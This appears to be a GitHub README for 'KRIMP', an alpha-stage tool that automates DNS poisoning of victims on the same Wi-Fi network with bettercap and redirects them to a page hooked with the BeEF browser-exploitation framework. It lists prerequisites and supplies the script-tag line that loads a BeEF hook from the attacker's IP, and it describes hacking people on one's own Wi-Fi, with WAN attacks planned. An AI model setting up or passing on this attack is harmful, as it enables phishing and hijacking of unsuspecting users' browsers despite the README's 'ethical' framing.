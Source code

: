 # KRIMP
   ▄█   ▄█▄    ▄████████  ▄█    ▄▄▄▄███▄▄▄▄      ▄███████▄ 
  ███ ▄███▀   ███    ███ ███  ▄██▀▀▀███▀▀▀██▄   ███    ███ 
  ███▐██▀     ███    ███ ███▌ ███   ███   ███   ███    ███ 
 ▄█████▀     ▄███▄▄▄▄██▀ ███▌ ███   ███   ███   ███    ███ 
▀▀█████▄    ▀▀███▀▀▀▀▀   ███▌ ███   ███   ███ ▀█████████▀  
  ███▐██▄   ▀███████████ ███  ███   ███   ███   ███        
  ███ ▀███▄   ███    ███ ███  ███   ███   ███   ███        
  ███   ▀█▀   ███    ███ █▀    ▀█   ███   █▀   ▄████▀      
  ▀           ███    ███                                   
  
Do you ever want to phish someone (ETHICALLY) and u cant seem to find a good url? Well I got you covered, this tool automates the process of DNS poisoning a target on your wifi to make them redirect to your page which is inected with beEf.
*This is in an alpha stage, more automation will come*

## Pre-requisites
1. You will need to have beEf installed
2. You will need to have bettercap installed
3. You will need to have gnome-terminal installed
4. You will need to have apache2 installed

You will also need an index.html file inside of your /var/www/html folder with a beef hook, add this to a html file to hook it with beef:
`<script src="http://<local ip>:3000/hook.js"></script>`

## Configurate the script
- Change the directories in the script to your installation of beEF and bettercap.

### Extra
At the moment, this tool is only used to hack people on your own wifi, more features will come over time, like over WAN.

